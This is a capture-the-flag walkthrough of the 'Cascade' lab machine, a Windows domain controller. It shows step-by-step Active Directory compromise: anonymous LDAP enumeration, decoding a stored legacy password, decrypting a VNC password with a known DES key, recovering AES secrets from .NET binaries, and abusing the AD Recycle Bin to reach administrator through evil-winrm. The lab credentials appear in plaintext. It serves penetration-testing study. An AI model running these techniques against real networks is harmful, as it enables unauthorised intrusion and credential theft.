


# Cascade

## Autorecon results

**Password:** PentestEverything



## Nmap

```
nmap 10.10.10.182 -p- -Pn -sS -sV

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-02 18:33:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```


Add "10.10.10.182 cascade.local" to /etc/hosts.


Starting out on this machine we run a simple `nmap` script scan against `LDAP` with null credentials.

```bash
nmap -n -sV --script "ldap* and not brute" '10.10.10.182'
```

 (1) (1) (1).png>)

Seeing as we are able to pull some information with the above command, we can try `ldapseacher` with `NULL` credentials know that we know the required domain information.

```bash
ldapsearch -x -h "10.10.10.182" -D '' -w '' -b "DC=cascade,DC=local" 
```

 (1) (1) (1) (1) (2) (1) (1).png>)

We find this spits out a serious amount of information. Ideally, we will run this against and identify some user accounts.

```bash
# Search for users, cleanup and output to file
ldapsearch -x -h "10.10.10.182" -D '' -w '' -b "DC=cascade,DC=local" | grep "userPrincipalName" | sed 's/userPrincipalName: //' | sort > ADUsers.txt
```

 (1) (1) (1) (1) (1) (1) (1).png>)

Now, with a list of users we can start trying to find ways into the accounts. First up, checking the target domain for users with 'Do not require Kerberos preauthentication'.

```
python2 /opt/impacket-0.9.19/examples/GetNPUsers.py cascade.local/ -usersfile ADUsers.txt -dc-ip 10.10.10.182
```

 (1) (1) (1) (1) (1) (1).png>)

Unfortunately we get no results here...

I also attempted password spraying the accounts for quite some time. Again, nothing.

As `LDAP` has spewed so much data with `NULL` credentials I decided to look again, this time using a graphical explorer.

```
sudo apt install jxplorer
```

Where we can login using the following settings:

 (1) (1) (1) (1) (1) (1) (1).png>)

After some time of pouring through the results manually we come across an interesting attribute for the user _r.thompson_.

 (1) (1) (1).png>)

```
cascadeLegacyPwd:clk0bjVldmE=
```

Decoding the `Base64` value gives us a valid credential.

```
echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
```

We now have the following credentials

```
r.thompson:rY4n5eva
```

We can see from the `LDAP` results above _r.thompson_ is not a member of the Remote Management Users group so `WinRM` will not work here.

 (1) (1) (1) (1).png>)

As the credentials are valid we can then try download the contents of selected shares.

```bash
smbclient -U 'r.thompson' '\\10.10.10.182\Data\' -c 'prompt OFF;recurse ON; mget *'  
```

 (1) (1) (1) (1) (1) (1) (1).png>)

Under `/IT/Temp/s.smith/` we have a file called `"VNC Install.reg"`.

 (1) (1) (1) (1) (1) (1) (1).png>)

We can see from the above image we have the above HEX value in the password field.

```
6bcf2a4b6e5aca0f
```

After a little bit of research on Google we find the value can be decrypted using the following command.

```bash
echo -n "6bcf2a4b6e5aca0f" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

 (1) (1) (1) (1) (1).png>)

For the credentials:

```
s.smith:sT333ve2
```

We know from enumeration earlier that s.smith is a member of the AD group "Audit Share".

 (1) (1) (1) (1) (1) (1).png>)

Knowing this, we can take a guess that they have access to the `AUDIT$` `SMB` share.

```bash
smbclient -U 's.smith' '\\10.10.10.182\AUDIT$\' -c 'prompt OFF;recurse ON; mget *'  
```

 (1) (1) (1) (1) (1) (1) (1).png>)

Opening the database from `Audit.db` database file from the DB folder shows a `Base64` encoded value for the _ArkSvc_ user.

 (1) (1) (1) (1) (1) (1).png>)

```bash
echo 'BQO5l5Kj9MdErXx6Q6AGOw==' | base64 -d
```

Of which, when, decoded appears to be encrypted.

To read the `exe` and `DLL` files included in the `SMB` share we need to jump onto a Windows host and use `dnSpy`.

**Github**: [https://github.com/dnSpy/dnSpy/releases](https://github.com/dnSpy/dnSpy/releases)

Opening both `CaseCrypto.dll` and `CaseAudit.exe` in dnSpy we can obtain valuable information from both files when carefully reading the code.





```
IV:1tdyjCbY1Ix49842
Key:c4scadek3y654321
Mode:CBC
Size:128
```

This information can be plugged into the following website to reveal the encrypted string.

**URL:** [https://www.devglan.com/online-tools/aes-encryption-decryption](https://www.devglan.com/online-tools/aes-encryption-decryption)

 (1) (1) (1).png>)

For the credentials:

```
arksvc:w3lc0meFr31nd
```

Where we can log in over `WinRM` with `Evil-WinRM`.

```bash
evil-winrm -u 'arksvc' -p 'w3lc0meFr31nd' -i '10.10.10.182'
```

 (1) (1) (1) (1) (1) (1) (1) (1).png>)

Looking at our group memberships we see we are a member of the group _"AD Recycle Bin"_.

 (1) (1) (1) (1) (1) (1).png>)

We can use the `PowerShell` AD module to listed deleted users.

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

 (1) (1).png>)

```bash
echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d 
```

Credentials:

```
tempadmin:baCT3r1aN00dles
```

From enumerating the `SMB` shares earlier we came across the following file from the Data share:

Meeting\_Notes\_June\_2018.html

 (1) (1) (1) (1) (1) (1) (1).png>)

With this information we can then log in as the administrator account and grab the root flag.

```bash
evil-winrm -u 'administrator' -p 'baCT3r1aN00dles' -i '10.10.10.182' 
```

 (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
